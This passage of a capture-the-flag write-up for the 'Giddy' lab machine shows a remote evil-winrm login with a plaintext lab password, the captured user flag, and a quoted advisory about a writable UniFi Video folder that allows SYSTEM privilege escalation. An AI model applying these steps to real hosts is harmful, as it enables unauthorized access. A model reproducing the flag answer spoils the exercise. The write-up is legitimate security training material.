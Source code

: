 ```shell
$ evil-winrm -i 10.10.10.104 -u stacy -p xNnWo6272k7x

Evil-WinRM shell v3.7

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Stacy\Documents> whoami
giddy\stacy
```

Get the flag:

```shell
*Evil-WinRM* PS C:\Users\Stacy\desktop> type user.txt
5a7edac0ca154dcfa80ec0b5010112ab
```

## Privilege Escalation

The user's document folder has a `unifivideo` file:

```shell
*Evil-WinRM* PS C:\Users\Stacy\documents> ls


    Directory: C:\Users\Stacy\documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        6/17/2018   9:36 AM              6 unifivideo
```

Searching with `searchsploit`:

![](../assets/Pasted%20image%2020250612203241.png)

```shell
5. VULNERABILITY DETAILS
========================
Ubiquiti UniFi Video for Windows is installed to "C:\ProgramData\unifi-video\"
by default and is also shipped with a service called "Ubiquiti UniFi Video". Its
executable "avService.exe" is placed in the same directory and also runs under
the NT AUTHORITY/SYSTEM account.

However the default permissions on the "C:\ProgramData\unifi-video" folder are
inherited from "C:\ProgramData" and are not explicitly overridden, which allows
all users, even unprivileged ones, to append and write files to the application
directory:

c:\ProgramData>icacls unifi-video
unifi-video NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
BUILTIN\Administrators:(I)(OI)(CI)(F)
CREATOR OWNER:(I)(OI)(CI)(IO)(F)
BUILTIN\Users:(I)(OI)(CI)(RX)
BUILTIN\Users:(I)(CI)(WD,AD,WEA,WA)

Upon start and stop of the service, it tries to load and execute the file at
"C:\ProgramData\unifi-video\taskkill.exe". However this file does not exist in
```